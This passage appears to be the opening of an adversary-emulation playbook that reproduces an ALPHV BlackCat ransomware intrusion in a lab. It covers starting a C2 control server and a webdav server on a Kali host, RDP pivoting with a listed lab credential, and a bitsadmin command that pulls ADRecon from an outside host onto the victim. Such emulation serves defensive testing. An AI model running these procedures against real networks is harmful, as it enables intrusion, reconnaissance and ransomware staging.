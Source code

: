 # ALPHV BlackCat Scenario Overview

## Step 0 - Operator Setup

### ☣️ Procedures

* Initiate an RDP session to the Kali attack host `kraken (176.59.1.18)`

* Open a terminal window and start the webdav server:
  ```
  sudo rclone serve webdav /srv/http --addr 176.59.1.18:8080
  ```

* Ensure the evalsC2server simple file server handler was started. If it hasn't been started in another terminal window, start the evalsC2server, ensuring the following
handlers are enabled:
  * Simple file server
  ```
  cd alphv_blackcat/Resources/control_server
  sudo ./controlServer -c config/msr2_handler_config.yml
  ```
  
## Step 1 - Initial Compromise and Discovery

### :microphone: Voice Track
An Access Broker gains access to a contractor organization which provides the
BlackCat affiliate with RDP access to a bastion host `kimeramon (10.20.20.11)`
within the corporate subsidiary network used by the contractor. The BlackCat
affiliate utilizes the trusted access between the compromised contractor
organization to RDP to the bastion host `kimeramon (10.20.20.11)` within the
corporate subsidiary network and download ADRecon.ps1.

The BlackCat affiliate uses ADRecon.ps1 to discover information about the
Active Directory and corporate network. After analyzing the output of ADRecon,
the BlackCat affiliate learns the following:
- NetBNMBackup server `datamon (10.20.10.122)`
- Linux KVM server `leomon (10.20.10.16)`
- Server administrators

### ☣️ Procedures

* Initiate an RDP session to the contractor workstation `raremon (10.30.10.4)`

* From the contractor workstation `raremon (10.30.10.4)`, RDP to the bastion
host `kimeramon (10.20.20.11)` using the contractor's credentials:

  | Username | Password |
  | -------- | -------- |
  | DIGIREVENGE\zorimoto | tzTVgs44isT4YxWU! |

* Within the RDP session to the bastion host `kimeramon (10.20.20.11)`, open
Edge and browse to:
    ```
    https://github.com/sense-of-security/ADRecon/blob/11881a24e9c8b207f31b56846809ce1fb189bcc9/ADRecon.ps1
    ```
    * Click the download button to "Download raw file" to the Downloads folder
    * :heavy_exclamation_mark: If OVR testing, you will not have internet access to browse to GitHub. Instead:
        * Open a non-elevated PowerShell and execute:
            ```
            bitsadmin /transfer ovr /download http://the-inator.com/digirevenge/ADRecon.ps1 C:\Users\zorimoto\Downloads\ADRecon.ps1
            ```